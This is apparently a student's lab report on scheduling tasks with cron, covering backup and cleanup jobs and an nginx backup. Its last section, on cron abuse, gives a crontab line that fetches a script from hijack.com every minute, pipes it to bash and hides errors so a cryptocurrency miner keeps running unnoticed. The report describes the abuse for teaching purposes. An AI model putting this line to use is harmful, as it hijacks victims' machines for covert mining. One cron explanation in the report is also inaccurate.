 **Author: Sergey Razmakhov**
**Group: CBS-02**
**Lab 6: Scheduling Tasks**

### 1. directory backup & cleanup

![](../attachments/Pasted%20image%2020250304012022.png)

`0 0 5 * *` runs job at midnight on the 5th of every month.
The rest in the script.

![](../attachments/Pasted%20image%2020250304012415.png)

For cleanup:

![](../attachments/Pasted%20image%2020250304012541.png)

`1 10` allows to run script daily, every 10 minutes.
The rest in the script (the files older than 30 days will be deleted).

### 2. nginx backup

![](../attachments/Pasted%20image%2020250304102357.png)

`0 0 * * 0` runs job at midnight every Sunday.
Further details are in the script (I utilize `find` command to delete all deprecated backups).

### 3. job description

![](../attachments/Pasted%20image%2020250304105107.png)

There is no way to specify the job to run on the second Saturday of every month, so we forced to check all days within possible range. 
Further details are in the script.

### 4. cron jobs abuse

```bash
* * * * * curl -s http://hijack.com/bomb.sh | bash 2> /dev/null
```

Downloads cryptocurrency script, runs it and redirects all errors to `/dev/null` to ensure victim's unawareness. `* * * * *` allows to run miner persistently, even though some related processes might be killed.